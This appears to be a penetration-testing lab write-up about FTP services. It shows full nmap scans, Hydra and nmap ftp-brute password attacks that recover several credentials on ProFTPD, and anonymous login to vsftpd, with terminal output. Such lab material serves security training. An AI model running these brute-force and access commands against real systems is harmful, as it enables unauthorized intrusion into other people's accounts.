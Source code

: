 # FTP

## ProFTPD

```sh
root@attackdefense:~# nmap -sV -O 192.75.103.3 -p 21
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 11:02 UTC
Nmap scan report for target-1 (192.75.103.3)
Host is up (0.000052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
MAC Address: 02:42:C0:4B:67:03 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.15 seconds
```

Port 21 is commonly used for FTP service. After scanning, we identified that it is running proFTPD.

We can utilize the following Linux command to establish a connection with an FTP server:

```sh
root@attackdefense:~# ftp 192.75.103.3
Connected to 192.75.103.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.75.103.3]
Name (192.75.103.3:root): 
331 Password required for root
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> bye
221 Goodbye.
```

In this case, it does not allow us to log in as an anonymous user.

So now we can utilize the Hydra tool in this case to brute force the username and password:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.75.103.3 ftp
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 11:11:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.75.103.3:21/
<strong>[21][ftp] host: 192.75.103.3   login: sysadmin   password: 654321
</strong><strong>[21][ftp] host: 192.75.103.3   login: rooty   password: qwerty
</strong><strong>[21][ftp] host: 192.75.103.3   login: demo   password: butterfly
</strong><strong>[21][ftp] host: 192.75.103.3   login: auditor   password: chocolate
</strong><strong>[21][ftp] host: 192.75.103.3   login: anon   password: purple
</strong><strong>[21][ftp] host: 192.75.103.3   login: administrator   password: tweety
</strong><strong>[21][ftp] host: 192.75.103.3   login: diag   password: tigger
</strong>1 of 1 target successfully completed, 7 valid passwords found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-28 11:12:30
</code></pre>

We have obtained login credentials for several users to access FTP.

Now let's try to login as `sysadmin`:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# ftp 192.75.103.3Connected to 192.75.103.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.75.103.3]
Name (192.75.103.3:root): sysadmin
331 Password required for sysadmin
Password:
230 User sysadmin logged in
Remote system type is UNIX.
Using binary mode to transfer files.
<strong>ftp> ls
</strong>200 PORT command successful
150 Opening ASCII mode data connection for file list
<strong>-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
</strong></code></pre>

Logged in successfully.

We can also use Nmap instead of hydra to do this operation:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap 192.75.103.3 --script ftp-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/common_users.txt -p21
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 11:22 UTC
Nmap scan report for target-1 (192.75.103.3)
Host is up (0.000062s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     rooty:qwerty - Valid credentials
|     anon:purple - Valid credentials
|     demo:butterfly - Valid credentials
|     auditor:chocolate - Valid credentials
<strong>|     sysadmin:654321 - Valid credentials
</strong>|     diag:tigger - Valid credentials
|     administrator:tweety - Valid credentials
|_  Statistics: Performed 221 guesses in 31 seconds, average tps: 7.0
MAC Address: 02:42:C0:4B:67:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 32.23 seconds
</code></pre>

## vsftps

To test if anonymous logins are enabled on the system, we can use the Nmap tool:

```sh
root@attackdefense:~# nmap 192.82.7.3 -p 21 --script=ftp-anon
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 11:38 UTC
Nmap scan report for target-1 (192.82.7.3)
Host is up (0.000091s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
MAC Address: 02:42:C0:52:07:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

so let's try to login as anonymous:

```sh
root@attackdefense:~# ftp 192.82.7.3
Connected to 192.82.7.3.
220 (vsFTPd 3.0.3)
Name (192.82.7.3:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Here we logged in successfully.
